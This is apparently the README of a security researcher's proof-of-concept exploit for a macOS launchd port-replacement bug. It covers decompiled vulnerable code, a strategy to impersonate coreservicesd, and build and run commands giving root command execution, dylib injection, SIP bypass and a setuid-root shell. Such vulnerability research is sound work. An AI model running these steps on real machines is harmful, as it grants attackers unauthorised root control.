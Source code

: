 launchd-portrep
===================================================================================================

<!-- Brandon Azad -->

launchd-portrep is an exploit for a port replacement vulnerability in launchd, the initial
userspace process and service management daemon on macOS. By sending a crafted Mach message to the
bootstrap port, launchd can be coerced into deallocating its send right for any Mach port to which
the attacker also has a send right. This allows the attacker to impersonate any launchd service it
can look up to the rest of the system.


The vulnerability
---------------------------------------------------------------------------------------------------

Launchd multiplexes multiple different Mach message handlers over its main port, including a MIG
handler for exception messages. If a process sends a `mach_exception_raise` or
`mach_exception_raise_state_identity` message to its own bootstrap port, launchd will receive and
process that message as a host-level exception.

Unfortunately, launchd's handling of these messages is buggy. If the exception type is `EXC_CRASH`,
then launchd will deallocate the thread and task ports sent in the message and then return
`KERN_FAILURE` from the service routine, causing the MIG system to deallocate the thread and task
ports again. (The assumption is that if a service routine returns success, then it has taken
ownership of all resources in the Mach message, while if the service routine returns an error, then
it has taken ownership of none of the resources.)

Here is the code from launchd's service routine for `mach_exception_raise` messages, decompiled
using IDA/Hex-Rays and lightly edited for readability:

```c
kern_return_t __fastcall
catch_mach_exception_raise(                             // (a) The service routine is
        mach_port_t           exception_port,           //     called with values directly
        mach_port_t           thread,                   //     from the Mach message
        mach_port_t           task,                     //     sent by the client. The
        unsigned int          exception,                //     thread and task ports could
        mach_exception_data_t code,                     //     be arbitrary send rights.
        unsigned int          codeCnt)
{
    kern_return_t kr;      // eax@1 MAPDST
    kern_return_t result;  // eax@10
    int pid;               // [rsp+14h] [rbp-43Ch]@1
    char codes_str[1024];  // [rsp+20h] [rbp-430h]@5
    __int64 __stack_guard; // [rsp+420h] [rbp-30h]@1

    __stack_guard = *__stack_chk_guard_ptr;
    pid = -1;
    kr = pid_for_task(task, &pid);
    if ( kr )
    {
        _os_assumes_log(kr);
        _os_avoid_tail_call();
    }
    if ( codeCnt )
    {
        do
        {
            __snprintf_chk(codes_str, 0x400uLL, 0, 0x400uLL, "0x%llx", *code);
            ++code;
            --codeCnt;
        }
        while ( codeCnt );
    }
    launchd_log_2(
        0LL,
        3LL,
        "Host-level exception raised: pid = %d, thread = 0x%x, "
            "exception type = 0x%x, codes = { %s }",
        pid,
        thread,
        exception,
        codes_str);
    kr = deallocate_mach_port(thread);                  // (b) The "thread" port sent in
    if ( kr )                                           //     the message is deallocated.
    {
        _os_assumes_log(kr);
        _os_avoid_tail_call();
    }
    kr = deallocate_mach_port(task);                    // (c) The "task" port sent in the
    if ( kr )                                           //     message is deallocated.
    {
        _os_assumes_log(kr);
        _os_avoid_tail_call();
    }
    result = 0;
    if ( *__stack_chk_guard_ptr == __stack_guard )
    {
        LOBYTE(result) = exception == 10;               // (d) If the exception type is 10
        result *= 5;                                    //     (EXC_CRASH), then an error
    }                                                   //     KERN_FAILURE is returned.
    return result;                                      //     MIG will deallocate the
}                                                       //     ports again.
```

This double-deallocate of the port names is problematic because a process can set any ports it
wants as the task and thread ports in the exception message. Launchd performs no checks that the
received send rights actually correspond to a thread and a task; the ports could, for example, be
send rights to ports already in launchd's IPC space. Then the double-deallocate would actually
cause launchd to drop a user reference on one of its own ports.

This bug can be exploited to free launchd's send right to any Mach port to which the attacking
process also has a send right. In particular, if the attacking process can look up a system service
using launchd, then it can free launchd's send right to that service and then impersonate the
service to the rest of the system. After that there are many different routes to gain system
privileges.


Exploit strategy to get task_for_pid-allow
------------------------------------------------------------------------------------------------

This bug is a less general version of [CVE-2016-7637], a Mach port user reference handling issue in
XNU discovered by Ian Beer that allowed processes to free Mach ports in other processes. Ian Beer
exploited that vulnerability on macOS by replacing launchd's send right to the
com.apple.CoreServices.coreservicesd endpoint and impersonating coreservicesd to the rest of the
system. Coreservicesd is an attractive target because it is one of a few services to which clients
will send their task port in a Mach message. By replacing launchd's send right to coreservicesd
with his own port and then triggering privileged clients to look up and communicate with
coreservicesd, he was able to obtain the task port for a privileged process and then execute code
within that process.

[CVE-2016-7637]: https://bugs.chromium.org/p/project-zero/issues/detail?id=959

Since the behavior on macOS hasn't changed, I basically copied Ian Beer's exploit strategy for this
vulnerability. We send exception messages to launchd containing coreservicesd's service port until
we free launchd's send right to that port. We can detect when we've freed the right by calling
bootstrap_look_up() again on the service: if launchd returns an invalid port name, then we've
successfully freed launchd's send right to the port. Then, we repeatedly register and unregister a
large number of services with launchd until one of the services we register is assigned the same
Mach port name in launchd's IPC space as the original coreservicesd port. At this point, any
process that looks up com.apple.CoreServices.coreservicesd in launchd will receive a send right to
our fake service rather than the real coreservicesd. We then run a MITM server on the fake service
port, inspecting all Mach ports in the messages received from clients before sending them along to
the real coreservicesd. At this point we send a message to sysdiagnose causing it to run a
tailspin, which causes sysdiagnose to connect to our fake coreservicesd port and send us its task
port. Since sysdiagnose has the `task_for_pid-allow` entitlement, we can now get the task port for
any process.

In order to (mostly) restore proper functioning of the system, we use sysdiagnose to obtain
launchd's task port, and then use launchd's task port to replace launchd's send right to our fake
service port back with a send right to the real coreservicesd. That way future clients can actually
reach coreservicesd.

One problem I've noticed with this approach is that the system seems to hang on shutdown for a
short while. I'm assuming that this is because tampering with launchd's ports messes up some of
launchd's accounting or port notifications. I haven't investigated this issue further, but
restarting coreservicesd using launchctl seems to fix it:

	$ sudo launchctl kickstart -k -p system/com.apple.coreservicesd


Once we have task_for_pid-allow
------------------------------------------------------------------------------------------------

Once we have code execution inside a `task_for_pid-allow` process, we can control any task on the
system. This is great because not only can we perform the standard elevation of privileges, but we
can also bypass SIP by injecting code into SIP-entitled processes.

This exploit demonstrates two potential uses: system command execution as root and dylib injection.
To execute a system command, we simply invoke the standard `system()` function from within
sysdiagnose, passing it the command string supplied by the user. To inject a dylib into a process,
we call `task_for_pid()` from within sysdiagnose to get the task port of the target, then use the
task port to call `dlopen()` on the supplied library.


Usage
---------------------------------------------------------------------------------------------------

To build the standalone exploit `launchd-portrep`, run `make`. See the top of the Makefile for
various build options. You will need to download and build the [threadexec] injection library
first.

[threadexec]: https://github.com/bazad/threadexec

	$ git clone https://github.com/bazad/launchd-portrep
	$ cd launchd-portrep
	$ git clone https://github.com/bazad/threadexec
	$ cd threadexec
	$ make ARCH=x86_64 SDK=macosx
	$ cd ..
	$ make

Note that the exploit as written will fail if the sysdiagnose process is already running. Thus, for
the purposes of this proof of concept, be sure to kill sysdiagnose before running the exploit.

Run the exploit by specifying the command to run as if it were being given to the `system()`
function:

	$ ./launchd-portrep 'touch /tmp/exploit-success'
	[+] Freed launchd service port for com.apple.CoreServices.coreservicesd
	[+] Replaced com.apple.CoreServices.coreservicesd with replacer port 0xd77 (index 196) after 28 tries
	[+] Sysdiagnose has PID 499
	[+] Found sysdiagnose task port 0x1767b
	[+] Command exited with status: 0
	$ ls -la /tmp/exploit-success
	-rw-r--r--  1 root  wheel  0 Jul 24 23:50 /tmp/exploit-success

There is also an example script `launchd-portrep-rootsh.sh` that will use launchd-portrep to
install a setuid-root shell launcher under `/var/suid-sh`. Any user that runs this binary will be
presented with a root shell. You should probably ensure this file is removed when done. :)

Alternatively, specify the PID of the process you want to inject into and the path to the dylib to
inject:

	$ ./launchd-portrep 450 $PWD/inject.dylib

launchd-portrep has been tested on macOS 10.13.5 17F77.


License
---------------------------------------------------------------------------------------------------

The launchd-portrep code is released under the MIT license.


---------------------------------------------------------------------------------------------------
Brandon Azad
